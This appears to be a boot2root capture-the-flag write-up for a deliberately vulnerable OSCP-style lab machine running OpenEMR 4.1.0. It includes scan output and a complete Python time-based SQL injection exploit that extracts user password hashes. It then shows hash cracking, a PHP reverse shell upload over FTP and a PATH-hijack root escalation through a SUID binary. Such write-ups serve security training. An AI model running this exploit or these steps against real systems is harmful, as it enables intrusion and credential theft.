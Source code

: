 

## Description

Level: Intermediate

Description:This machine was developed to train the student to think according to the OSCP methodology. Pay attention to each step, because if you lose something you will not reach the goal: to become root in the system.

It is boot2root, tested on VirtualBox (but works on VMWare) and has two flags: user.txt and root.txt.

## Scanning

```console

└─$ sudo nmap -sT -A -Pn -n -T4 192.168.110.25
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-25 17:51 CEST
Nmap scan report for 192.168.110.25
Host is up (0.00010s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3d
80/tcp open  http    Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
| http-robots.txt: 8 disallowed entries 
| /manual/ /manual-2.2/ /addon-modules/ /doc/ /images/ 
|_/all_our_e-mail_addresses /admin/ /
|_http-server-header: Apache/2.2.17 (PCLinuxOS 2011/PREFORK-1pclos2011)
|_http-title: Coming Soon 2

Network Distance: 1 hop
Service Info: OS: Unix

```


```bash


└─$ gobuster dir -w directory-list-2.3-big.txt -u http://192.168.110.25  -t 20
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.110.25
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /home/kali/OSCP/Tools/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/26 06:50:58 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 5031]
/images               (Status: 301) [Size: 344] [--> http://192.168.110.25/images/]
/css                  (Status: 301) [Size: 341] [--> http://192.168.110.25/css/]   
/js                   (Status: 301) [Size: 340] [--> http://192.168.110.25/js/]    
/vendor               (Status: 301) [Size: 344] [--> http://192.168.110.25/vendor/]
/favicon              (Status: 200) [Size: 1406]                                   
/robots               (Status: 200) [Size: 620]                                    
/fonts                (Status: 301) [Size: 343] [--> http://192.168.110.25/fonts/] 
/gitweb               (Status: 301) [Size: 344] [--> http://192.168.110.25/gitweb/]
/phpMyAdmin           (Status: 403) [Size: 59]                                     
/server-status        (Status: 403) [Size: 1000]                                   
/server-info          (Status: 403) [Size: 1000]                                   
/openemr              (Status: 301) [Size: 345] [--> http://192.168.110.25/openemr/]
                                                                                    
===============================================================
2021/10/26 06:55:21 Finished
===============================================================
       
```


## Search exploit OpenEMR 4.1.0


```python

# Exploit Title: OpenEMR 4.1.0 - 'u' SQL Injection
# Date: 2021-04-03
# Exploit Author: Michael Ikua
# Vendor Homepage: https://www.open-emr.org/
# Software Link: https://github.com/openemr/openemr/archive/refs/tags/v4_1_0.zip
# Version: 4.1.0
# Original Advisory: https://www.netsparker.com/web-applications-advisories/sql-injection-vulnerability-in-openemr/

#!/usr/bin/env python3

import requests
import string
import sys

all = string.printable
# edit url to point to your openemr instance
url = "http://192.168.110.25/openemr/interface/login/validateUser.php?u="

def extract_users_num():
    print("[+] Finding number of users...")
    for n in range(1,100):
        payload = '\'%2b(SELECT+if((select count(username) from users)=' + str(n) + ',sleep(3),1))%2b\''
        r = requests.get(url+payload)
        if r.elapsed.total_seconds() > 3:
            user_length = n
            break
    print("[+] Found number of users: " + str(user_length))
    return user_length

def extract_users():
    users = extract_users_num()
    print("[+] Extracting username and password hash...")
    output = []
    for n in range(1,1000):
        payload = '\'%2b(SELECT+if(length((select+group_concat(username,\':\',password)+from+users+limit+0,1))=' + str(n) + ',sleep(3),1))%2b\''
        #print(payload)
        r = requests.get(url+payload)
        #print(r.request.url)
        if r.elapsed.total_seconds() > 3:
            length = n
            break
    for i in range(1,length+1):
        for char in all:
            payload = '\'%2b(SELECT+if(ascii(substr((select+group_concat(username,\':\',password)+from+users+limit+0,1),'+ str(i)+',1))='+str(ord(char))+',sleep(3),1))%2b\''
            #print(payload)
            r = requests.get(url+payload)
            #print(r.request.url)
            if r.elapsed.total_seconds() > 3:
                output.append(char)
                if char == ",":
                    print("")
                    continue
                print(char, end='', flush=True)


try:
    extract_users()
except KeyboardInterrupt:
    print("")
    print("[+] Exiting...")
    sys.exit()

```

## Found username and hashes password


```bash

└─$ python3 49742.py                                                                    1 ⨯

[+] Finding number of users...
[+] Found number of users: 2
[+] Extracting username and password hash...
admin:3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical:ab24aed5a7c4ad45615cd7e0da816eea39e4895d                                            

```

## Crack password


```bash



└─$ john  hash --format=Raw-SHA1
└─$ john  hash -show
admin:ackbar
medical:medical

```

## Upload reserse shell via FTP service

```bash
# medical:medical

$ ftp 192.168.110.25 
ftp> cd /var/www/html/openemr
ftp> mput php-reverse-shell.php

```

## Upload reserse shell via Open EMR admin interface

    Administration --> Files --> config.php



## Escale privileges 



    sh-4.1$ id
    uid=479(apache) gid=416(apache) groups=416(apache)
    sh-4.1$ find / -perm -u=s -type f 2>/dev/null
    find / -perm -u=s -type f 2>/dev/null

    /usr/bin/healthcheck
    sh-4.1$ ls -al /usr/bin/healthcheck
    -rwsr-sr-x 1 root root 5813 Jul 29  2020 /usr/bin/healthcheck
    ls -al /usr/bin/healthcheck
    sh-4.1$ strings /usr/bin/healthcheck
    clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h

    sh-4.1$ cd /tmp
    sh-4.1$ export PATH=/tmp:$PATH
    sh-4.1$ echo $PATH
    /tmp:/sbin:/usr/sbin:/bin:/usr/bin

    sh-4.1$ cat ifconfig
    /bin/sh
    sh-4.1$ chmod +x ifconfig
    sh-4.1$ /usr/bin/healthcheck
    TERM environment variable not set.
    System Health Check

    Scanning System
    id
    uid=0(root) gid=0(root) groups=0(root),416(apache)
    shutdown -h now


